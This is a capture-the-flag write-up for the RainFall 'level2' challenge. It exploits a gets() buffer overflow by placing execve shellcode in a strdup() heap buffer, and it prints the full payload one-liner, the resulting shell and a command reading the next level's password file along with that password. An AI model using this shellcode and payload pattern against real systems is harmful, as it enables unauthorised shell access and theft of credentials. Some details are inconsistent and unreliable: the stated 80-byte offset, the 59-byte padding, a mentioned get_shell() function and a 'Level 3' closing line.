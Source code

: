# Level2

## Objective

The goal of Level 2 is to escalate from `level2` to `level3` by exploiting a buffer overflow vulnerability in the `level2` binary. By the end, you should be able to retrieve the password for `level3`.

---

## Step 1: Examine the Binary

After switching to `level2`:

```bash
level2@RainFall:~$ ls
level2
```

Running the binary with some test input:

```bash
level2@RainFall:~$ ./level2
bjr
level2@RainFall:~$ ./level2
blablibloublu
level2@RainFall:~$
```

> **Observation**: The program take an input and quit, suggesting a **buffer overflow** ??.

---

## Step 2: Investigate the Code Behavior

By disassembling the main we find a function called `p()`, using again the disass cmd we find that the function uses `gets()` to read user input, which means there's a overflow vulnerability.

```bash
Dump of assembler code for function main:
    0x08048545 <+6>:     call   0x80484d4 <p>
Dump of assembler code for function p:
    0x080484ed <+25>:    call   0x80483c0 <gets@plt>
```

But here's the problem, the stack isn't usable this time to overflow.
<+39> - <+44> : Execute a logical AND on eax then compare it to "0xb0000000". 
This check is made to be sure we don't overwrite the return address to an address on the stack.

```bash
Dump of assembler code for function p:
   0x080484fb <+39>:    and    eax,0xb0000000
   0x08048500 <+44>:    cmp    eax,0xb0000000
```

The point is to use a different way to override... Maybe the HEAP ?
The Heap overflow exists and needs a malloc to be executed. We're lucky we found with ltrace a `strdup()` using a malloc.
Everything given to the `strdup()` is stored thanks to the malloc directly to the heap. The whole point here is to give `strdup()` a shellcode to execute with the syscall 
execve directly inside !

---

## Step 3: Find the Offset

We need to determine at which point our input overwrites the saved return address.

### 3.1 Using a Pattern

```bash
level2@RainFall:~$ gdb ./level2
(gdb) run $(python -c '"Aa0Aa1Aa2..."')
```

When the program crashes, we check the value of `EIP`:

```bash
(gdb) info registers eip
eip            0x37634136
```

Now we find the exact offset:

in ASCII translate to 0x36 0x41 0x63 0x37 meaning 6Ac7 here.

> The return address is overwritten after **80 bytes**.

---

## Step 4: So what's the expected input?

To exploit this binary, we provide three parts in our input:

1. **Shellcode** – a small sequence of instructions that executes `/bin/sh`.
2. **Padding** – filler bytes (`"A" * 59` here) to reach the saved return address on the stack.
3. **Return address** – overwritten with `0x0804a008`, which points to the buffer where our shellcode is stored.

When the function returns, execution jumps into our injected shellcode, giving us a shell.

```bash
level2@RainFall:~$ python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "Q" * 59 + "\x08\xa0\x04\x08"' > /tmp/exploit
level2@RainFall:~$ cat /tmp/exploit - | ./level2
j
 XRh//shh/bin1̀QQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQ
whoami
level3
cat /home/user/level3/.pass  
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

---

We successfully executed `get_shell()` and obtained a shell as `level3`.

---

**End of Level 3 Walkthrough**




